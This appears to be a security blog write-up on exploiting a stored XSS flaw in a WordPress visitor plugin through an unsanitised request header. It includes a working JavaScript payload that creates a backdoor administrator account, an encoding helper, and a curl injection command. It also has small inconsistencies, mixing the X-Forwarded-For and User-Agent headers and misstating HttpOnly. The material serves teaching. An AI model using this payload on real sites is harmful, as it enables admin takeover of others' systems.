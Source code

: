 ```yaml
---
layout: post
title: XSS
titledate: 08/25/23
tags: ["infosec","offsec","web", "xss", "wordpress"]
---
```


WordPress has numerous plugins many of which have been found vulnerable to XSS attacks

Examining the visitor plugin's database.php file shows how information is captured from the user and stored in the database

```php
ip' => $_SERVER['HTTP_X_FORWARDED_FOR']
```

Here we can see the HTTP header X-Forwarded-For is captured and stored as the ip variable

When the visitor plugin is loaded there are a couple php pages that can execute one of which is start.php

```html
<td scope="row" ><a href="https://www.geolocation.com/es?ip='.$record->ip.'#ipresult">'.$record->ip.'</a></td>
```

We can see that the ip is stored in an html table row directly without any sanitization from the captured user's HTTP header.
This can obviously lead to injection and pollution of code

<h4>XSS in Burpsuite</h4>

We can write a script to send http requests with a crafted header, or more easily use curl or Burpsuite to modify the header and inspect the result

With the Browser Network Settings Proxy configuration set to localhost port 8080 -

Leave intercept off and browse to the root site page

In the Target - History - panel you'll see the GET / request for the root of the site

If we right click and send it to repearter we can then modify this request

![_config.yml]({{ site.baseurl }}/images/web/burp_xss_1.png)

Now after sending this request to the target our User-Agent header should have been stored in the database.php waiting to be triggered by the start.php script

We need to login to have access to this plugin and trigger the script

<h4>XSS Priv Escalation</h4>

Now that we can have code executed from the admin user we can try to capture cookies or session information

The Secure flag lets the borwser know it can only send cookies over https and HttpOnly means javascript does get access to the cookie, if HttpOnly is not set an xss payload can send the session cookie back to the attacker

We can inspect session cookies when we are logged in to see which flags are set by clicking on the 'Storage' tab of the browser Developer Tools 

To create an Admin account we need to create a JS function that retrieves tha admin nonce

```js
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=poopy@pooper.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

This function above will be our backdoor admin account

We need to ensure it gets processed correctly during the http request so to do so we minifiy it and encode it 

[minify](https://jscompress.com)

& encode in the browser console

```js
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

The encode function above encodes each character with charCodeAt to UTF-16

Finally to inject our backdoor account via the vulnerable HTTP header we send the request 

-- via curl

<h3> $ curl -i http://site.com/ --user-agent "<script>eval(String.fromCharCode(encoded))</script>" --proxy 127.0.0.1:8080</h3>